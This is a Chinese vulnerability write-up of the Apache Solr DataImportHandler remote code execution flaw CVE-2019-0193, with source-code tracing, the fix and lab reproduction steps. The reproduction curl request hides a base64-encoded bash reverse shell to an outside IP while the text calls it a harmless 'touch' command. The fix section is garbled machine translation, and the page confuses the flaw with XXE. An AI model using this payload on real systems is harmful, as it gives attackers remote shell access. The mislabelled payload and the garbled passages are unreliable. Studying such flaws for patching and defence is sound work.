






# CVE-2019-0193 CWE-94 Solr RCE

## 漏洞背景

- **Solr ：**一个高性能、可扩展的开源企业级搜索引擎平台，基于 Apache Lucene 构建。它采用倒排索引技术，能够快速高效地对海量数据进行全文检索，支持多种数据格式（如 JSON、XML 等）的导入和索引。Solr 提供强大的查询功能，包括全文检索、过滤查询、排序、分组等，可灵活满足不同的检索需求。还具备分布式搜索和索引复制功能，可实现高可用性和负载均衡，广泛应用于电商搜索、内容管理、数据分析等众多领域，助力企业提升搜索体验和数据处理能力。
- **DataImportHandler（DIH）模块：**Apache Solr的一个强大模块，用于将数据从关系型数据库、XML/HTTP等外部数据源导入到Solr索引中。它支持全量导入和增量导入两种模式，并提供灵活的配置选项，方便用户进行数据抽取、转换和加载。DIH通过配置文件定义数据源、查询和数据处理逻辑，具备良好的扩展性，允许用户自定义数据源、实体处理器和数据变换器。它还支持重新加载配置、查询导入状态和中止操作等功能，适用于多种数据源的集成和高效索引构建，广泛应用于需要频繁更新索引的场景。
- **CWE-94  Improper Control of Generation of Code ('Code Injection')：** “动态代码评估风险” 漏洞，指程序通过动态解析或执行用户输入的代码片段引发安全问题，可能被攻击者利用远程执行恶意代码。

## 漏洞原理

在 Apache Solr 中，DataImportHandler 是一个可选但流行的模块，用于从数据库和其他来源提取数据，它有一个功能，其中整个 DIH 配置可以来自请求的 “dataConfig” 参数。DIH 管理屏幕的调试模式使用它来方便地调试/开发 DIH 配置。由于 DIH 配置可以包含脚本，因此此参数存在安全风险。

在 Solr 的早期版本（≤ 8.1.1）中，dataConfig 参数默认启用，可被任意请求传入。攻击者可以构造恶意的 DIH 配置，在其中插入脚本代码，最终利用 java.lang.Runtime.getRuntime().exec() 执行任意命令，导致远程代码执行。这使得未授权用户只需发送一个 HTTP 请求，就能在服务器上执行任意系统命令。

## 漏洞定位

分析 Solr 8.1.1 源码。

1. solr\contrib\dataimporthandler\src\java\org\apache\solr\handler\dataimport\DataImportHandler.java 文件用于从数据库和 REST 数据源导入数据到Solr索引中。其中第 117 行，handleRequestBody 方法用于处理传入的 HTTP 请求并生成相应的响应。

   在该方法第 133 行，获取请求中的 command 字段的值，之后在第 171 行判断是否是 `"full-import"` 命令，如果是则会在 第 174 行调用 `importer.maybeReloadConfiguration`方法重新加载配置。跟踪该方法。

   ```java
    @Override
     @SuppressWarnings("unchecked")
     public void handleRequestBody(SolrQueryRequest req, SolrQueryResponse rsp)
             throws Exception {
       rsp.setHttpCaching(false);
      
       ContentStream contentStream = null;
       Iterable<ContentStream> streams = req.getContentStreams();
       if(streams != null){
         for (ContentStream stream : streams) {
             contentStream = stream;
             break;
         }
       }
       SolrParams params = req.getParams();
       NamedList defaultParams = (NamedList) initArgs.get("defaults");
       RequestInfo requestParams = new RequestInfo(req, getParamsMap(params), contentStream);
   // ***** 133 行 ********** 获取 command 参数的值 ***************************************
       String command = requestParams.getCommand();
       
       if (DataImporter.SHOW_CONF_CMD.equals(command)) {    
         String dataConfigFile = params.get("config");
         String dataConfig = params.get("dataConfig");
         if(dataConfigFile != null) {
           dataConfig = SolrWriter.getResourceAsString(req.getCore().getResourceLoader().openResource(dataConfigFile));
         }
         if(dataConfig==null)  {
           rsp.add("status", DataImporter.MSG.NO_CONFIG_FOUND);
         } else {
           ModifiableSolrParams rawParams = new ModifiableSolrParams(req.getParams());
           rawParams.set(CommonParams.WT, "raw");
           req.setParams(rawParams);
           ContentStreamBase content = new ContentStreamBase.StringStream(dataConfig);
           rsp.add(RawResponseWriter.CONTENT, content);
         }
         return;
       }
   
       rsp.add("initArgs", initArgs);
       String message = "";
   
       if (command != null) {
         rsp.add("command", command);
       }
       // If importer is still null
       if (importer == null) {
         rsp.add("status", DataImporter.MSG.NO_INIT);
         return;
       }
   
       if (command != null && DataImporter.ABORT_CMD.equals(command)) {
         importer.runCmd(requestParams, null);
       } else if (importer.isBusy()) {
         message = DataImporter.MSG.CMD_RUNNING;
       } else if (command != null) {
   // ***** 171 行 ********** 判断是否是 "full-import" 命令 *******************************
         if (DataImporter.FULL_IMPORT_CMD.equals(command)
                 || DataImporter.DELTA_IMPORT_CMD.equals(command) ||
                 IMPORT_CMD.equals(command)) {
   // ***** 174 行 ********** 调用 maybeReloadConfiguration 方法 *************************
           importer.maybeReloadConfiguration(requestParams, defaultParams);
           UpdateRequestProcessorChain processorChain =
                   req.getCore().getUpdateProcessorChain(params);
           UpdateRequestProcessor processor = processorChain.createProcessor(req, rsp);
           SolrResourceLoader loader = req.getCore().getResourceLoader();
           DIHWriter sw = getSolrWriter(processor, loader, requestParams, req);
   // ......
   ```

2. 在 solr\contrib\dataimporthandler\src\java\org\apache\solr\handler\dataimport\DataImporter.java 文件用于从各种数据源（如关系型数据库、XML/HTTP数据源等）导入数据到Solr索引中，第 110 行，`maybeReloadConfiguration` 方法用于加载用户传入的配置。

   在该方法第 120 行用于从请求参数中获取 dataConfig，即用户传入的 XML 字符串。之后在第 131 行，调用 `loadDataConfig()` 加载 `<dataConfig>` 配置的 XML ，如果配置中如有 `<script>` 标签，将在后续执行中也被解析执行。跟踪该方法。

   ```java
   boolean maybeReloadConfiguration(RequestInfo params, NamedList<?> defaultParams) throws IOException {
       // ...
   // ***** 120 行 ********** 从请求参数中获取 dataConfig **********************************
       String dataConfigText = params.getDataConfig();
       String dataconfigFile = params.getConfigFile();        
       InputSource is = null;
       if(dataConfigText!=null && dataConfigText.length()>0) {
         is = new InputSource(new StringReader(dataConfigText));
       } else if(dataconfigFile!=null) {
         is = new InputSource(core.getResourceLoader().openResource(dataconfigFile));
         is.setSystemId(SystemIdResolver.createSystemIdFromResourceName(dataconfigFile));
         log.info("Loading DIH Configuration: " + dataconfigFile);
       }
       if(is!=null) { 
   // ***** 131 行 ********** 加载 XML 配置（包含 <script>）*******************************
         config = loadDataConfig(is);
         success = true;
       }     
       // ...
   }
   ```

3. 在 solr\contrib\dataimporthandler\src\java\org\apache\solr\handler\dataimport\DataImporter.java 文件，第 190 行`loadDataConfig`方法用于从 `InputSource` 中解析用户提供的 `<dataConfig>` 配置，最终生成 `DIHConfiguration` 对象，这是 DIH（DataImportHandler）解析数据导入配置的核心步骤。

   在该方法的第 211 行用于判断是否允许使用外部实体，之后允许在 XML 解析器中开启 XInclude 和 外部实体解析，从而造成 XXE 漏洞甚至远程代码执行。

   ```java
   public DIHConfiguration loadDataConfig(InputSource configFile) {
   
       DIHConfiguration dihcfg = null;
       try {
         DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
           // 禁用 DTD 验证
         dbf.setValidating(false);
         
         // only enable xinclude, if XML is coming from safe source (local file)
         // and a a SolrCore and SystemId is present (makes no sense otherwise):
           // 如果条件满足，就启用 XInclude 支持，允许引入外部 XML 文件内容。
         if (core != null && configFile.getSystemId() != null) {
           try {
             dbf.setXIncludeAware(true);
             dbf.setNamespaceAware(true);
           } catch( UnsupportedOperationException e ) {
             log.warn( "XML parser doesn't support XInclude option" );
           }
         }
         
           // 创建一个用于 DOM 解析的 DocumentBuilder 实例
         DocumentBuilder builder = dbf.newDocumentBuilder();
         // only enable xinclude / external entities, if XML is coming from
         // safe source (local file) and a a SolrCore and SystemId is present:
           // 判断是否允许使用外部实体
         if (core != null && configFile.getSystemId() != null) {
   // 启用基于 SolrCore ResourceLoader 的外部实体解析
           builder.setEntityResolver(new SystemIdResolver(core.getResourceLoader()));
         } else {
   // 使用安全的 EmptyEntityResolver，完全禁止加载外部实体。
           // Don't allow external entities without having a system ID:
           builder.setEntityResolver(EmptyEntityResolver.SAX_INSTANCE);
         }
         builder.setErrorHandler(XMLLOG);
         Document document;
         try {
           document = builder.parse(configFile);
         } finally {
           // some XML parsers are broken and don't close the byte stream (but they should according to spec)
           IOUtils.closeQuietly(configFile.getByteStream());
         }
   
         dihcfg = readFromXml(document);
         log.info("Data Configuration loaded successfully");
       } catch (Exception e) {
         throw new DataImportHandlerException(SEVERE,
                 "Data Config problem: " + e.getMessage(), e);
       }
       for (Entity e : dihcfg.getEntities()) {
         if (e.getAllAttributes().containsKey(SqlEntityProcessor.DELTA_QUERY)) {
           isDeltaImportSupported = true;
           break;
         }
       }
       return dihcfg;
     }
   ```
   

**漏洞点**：在没有任何权限验证的情况下，Solr 允许外部请求通过 dataConfig 参数传入 XML 配置文件，并且没有对这些配置进行适当的权限或安全检查。攻击者可以通过构造恶意的 XML 文件，利用 dataConfig 参数，来执行攻击。

## 漏洞修复


从 Solr 版本 8.2.0,要使用此参数,需要将Java系统属性"enable.dih.dataConfigParam"设置为真。 这意味着数据Config参数由Java系统属性控制。 只有当 Solr 已明确启用,可以继续使用调试数据Config参数。

时 Solr \ contitrib\dataimportHandler\src\java\org\apache\solr\handler\dataimportHandler\.java 在文件中 ：

添加静态字段,数据Config参数由Java系统属性控制

```java
static final String ENABLE_DIH_DATA_CONFIG_PARAM = "enable.dih.dataConfigParam";
final boolean dataConfigParam_enabled = Boolean.getBoolean(ENABLE_DIH_DATA_CONFIG_PARAM);
```

另外,在解析前,检查请求中是否包含数据Config参数和系统属性 - Denable.dih.dataConfigParam= truth没有设置,将直接抛出403紫禁例外。

```java
if (params.get("dataConfig") != null && dataConfigParam_enabled == false) {
  throw new SolrException(SolrException.ErrorCode.FORBIDDEN,
      "Use of the dataConfig param (DIH debug mode) requires the system property " +
          ENABLE_DIH_DATA_CONFIG_PARAM + " because it's a security risk.");
}
```

## 影响范围


**受影响版本：**Apache Solr < 8.2.0

** 影响组件:** DataImportHandler (DIH) 模块

** 环境要求:** Core(即索引寄存器实例)在 Solr;否则,请求的URL结构将不包含内核名称,导致请求失败。 核心可以是空的,如果没有文档数据就没事了。

## 环境搭建

1. 启动 Docker 环境，Solr 版本为 8.1.1，监听端口为 8983

   

2. 容器中存在一个名为 demo 的 core，并将 XML、JSON、CSV 文件导入了该 Solr core 中，使用以下命令查看所有的核心：

   ```bash
   curl http://127.0.0.1:8983/solr/admin/cores?indexInfo=false&wt=json
   ```

   

## 漏洞复现

1. 执行 curl 命令，向本地 Solr demo 核心的 DataImportHandler 发起一次数据导入请求，通过特制的 dataConfig 注入脚本尝试在服务器上执行 touch /tmp/success 命令。

   ```bash
   curl -X POST 'http://192.168.233.153:8983/solr/demo/dataimport?_=1708782956647&indent=on&wt=json' \
     -H 'Host: 192.168.233.153:8983' \
     -H 'Accept: application/json, text/plain, */*' \
     -H 'X-Requested-With: XMLHttpRequest' \
     -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36' \
     -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Origin: http://your-ip:8983' \
     -H 'Referer: http://your-ip:8983/solr/' \
     -H 'Accept-Encoding: gzip, deflate, br' \
     -H 'Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7' \
     --data-raw 'command=full-import&verbose=false&clean=false&commit=true&debug=true&core=demo&dataConfig=%3CdataConfig%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIzMy4xMzMvNDQ0NCAwPiYx}|{base64,-d}|{bash,-i}%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22sample%22%0A++++++++++++fileName%3D%22.*%22%0A++++++++++++baseDir%3D%22%2F%22%0A++++++++++++processor%3D%22FileListEntityProcessor%22%0A++++++++++++recursive%3D%22false%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport' \
     --compressed
   ```

   

2. **或者**在浏览器访问 Solr 主页 http://127.0.0.1:8983，在左边 Core Selector 下选择demo核心，再选择 Dataimport 功能并选择右上 debug 模式，填入 payload 后，点击 Execute with this Confuguration 执行。

   ```xml
   <dataConfig>
     <script><![CDATA[
             function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
             }
     ]]></script>
     <document>
       <entity name="sample"
               fileName=".*"
               baseDir="/"
               processor="FileListEntityProcessor"
               recursive="false"
               transformer="script:poc" />
     </document>
   </dataConfig>
   ```

   

3. 进入容器命令行，查看 tmp 目录下的文件，可以看到成功创建了 success 文件。

   ```bash
   docker exec -it solr-8.1.1 bash
   ls /tmp
   ```

   

## PoC分析

由于利用该漏洞进行命令执行时没有执行结果回显，在进行验证时采用执行的命令为请求本机的 PoC 代码文件。

1. 先在 PoC 文件所在的文件夹中打开终端，并执行下列命令监听 4444 端口。

   ```bash
   python3 -m http.server 4444
   ```

2. 重新在 PoC 文件所在的文件夹中打开一个终端。执行 PoC 文件，输入 Solr 运行的 IP 和端口，再输入要执行的命令为请求第一步监听端口下的 PoC 文件，<your-ip> 为本机的 IP，不是 127.0.0.1，在进行测试时运行 Solr 的 IP 为 192.168.233.153。

   运行后可在监听界面看到有请求。

   ```bash
   python CVE-2019-0193-PoC.py
   
   curl http://<your-ip>:4444/CVE-2019-0193-PoC.py
   ```

   

## 参考链接


[NVD - CVE-2019-0193](https://nvd.nist.gov/vuln/detail/CVE-2019-0193#range-16496617)

[XML External Entity (XXE) Injection in Apache Solr · CVE-2019-0193 · GitHub Advisory Database](https://github.com/advisories/GHSA-3gm7-v7vw-866c)

[CVE-2019-0193 Source Code Analysis and Vulnerability Reproduction - CSDN Blog](https://blog.csdn.net/2303_80022567/article/details/148312062)

[SOLR-13669: DIH: Add a system property switch to use dataConfig par... · apache/lucene-solr@224c038 --- SOLR-13669: DIH: Add System property toggle for use of dataConfig par… · apache/lucene-solr@224c038](https://github.com/apache/lucene-solr/commit/224c038f9b9a40517ff5378971d3c8aac7c4aafa#diff-87f7c9a6761a03c402a1a07cc0ac3cc91027201f49dc7c732374801eb3715755)

[SOLR-13669: DIH: Add system property switch to use dataConfig parameters by HoustonPutman · Pull Request #1260 · apache/lucene-solr --- SOLR-13669: DIH: Add System property toggle for use of dataConfig param by HoustonPutman · Pull Request #1260 · apache/lucene-solr](https://github.com/apache/lucene-solr/pull/1260)

[[SOLR-13669\] [CVE-2019-0193] Remote Code Execution via DataImportHandler - ASF JIRA](https://issues.apache.org/jira/browse/SOLR-13669)
